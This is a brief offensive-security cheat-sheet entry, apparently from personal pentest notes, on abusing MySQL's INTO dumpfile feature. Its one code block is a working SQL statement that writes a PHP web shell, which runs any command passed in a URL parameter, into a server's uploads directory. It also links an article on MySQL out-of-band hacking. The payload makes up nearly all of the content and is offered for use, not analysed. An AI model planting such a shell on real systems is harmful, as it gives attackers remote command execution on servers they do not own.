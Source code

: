 # MYSQL dumpfile

## Upload shell to web directory from mysql
```cheat sqlinjection Upload shell to web directory
SELECT '<?php exec($_GET["cmd"]); ?>' INTO dumpfile '/var/www/html/uploads/mshell.php';
```

## useful website for mysql hacking
https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/


tags: #mysql #webshell #shell #christian 

